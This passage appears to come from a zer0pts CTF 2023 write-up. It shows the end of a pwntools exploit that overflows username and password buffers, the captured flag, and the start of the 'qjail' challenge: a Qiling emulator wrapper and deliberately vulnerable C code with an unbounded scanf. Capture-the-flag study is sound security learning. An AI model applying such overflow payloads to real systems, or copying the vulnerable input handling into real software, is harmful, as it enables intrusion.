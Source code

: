 ```python
    return p

p = start()
p.sendafter(b"Username: ",b"A"*0x200)

p.sendafter(b"Password: ",b"A"*0x20+b"\0"*(0x200-0x20))
p.interactive()
```

![image](https://user-images.githubusercontent.com/31349426/253970140-cf8cc068-55c2-4e30-ad28-9bf3fea9de86.png)

Flag: `zer0pts{p0lLut3_7h3_3nv1r0nnnNNnnnNnnnnNNNnnNnnNn}`

## qjail

![image](https://user-images.githubusercontent.com/31349426/253970337-8badf254-60e6-45ee-9d58-13ffc293514f.png)

[Attachment](https://storage.googleapis.com/zer0ptsctf2023/8a2aacd1-541e-4870-a1b2-a43245a3494e/qjail_d5be8ea3a16d38924a8ebdef24cad483.tar.gz)

```python
#!/usr/bin/env python3
import qiling
import sys

if __name__ == '__main__':
    if len(sys.argv) < 2:
        print(f"Usage: {sys.argv[0]} <ELF>")
        sys.exit(1)

    cmd = ['./lib/ld-2.31.so', '--library-path', '/lib', sys.argv[1]]
    ql = qiling.Qiling(cmd, console=False, rootfs='.')
    ql.run()
```

The binray will be executed in Qilling emulator framework.

```c
#include <stdio.h>

int main() {
  char name[0x100];
  setbuf(stdin, NULL);
  setbuf(stdout, NULL);
  puts("Enter something");
  scanf("%s", name);
  return 0;
}
```

Taking a look at the binary's source code, the bug was easy to see.

So now I need debug that binray in Qilling. I have found [a useful document](https://docs.qiling.io/en/latest/debugger/), just adding `ql.debugger = True` before `ql.run()` and running `target remote localhost:9999` in GDB.
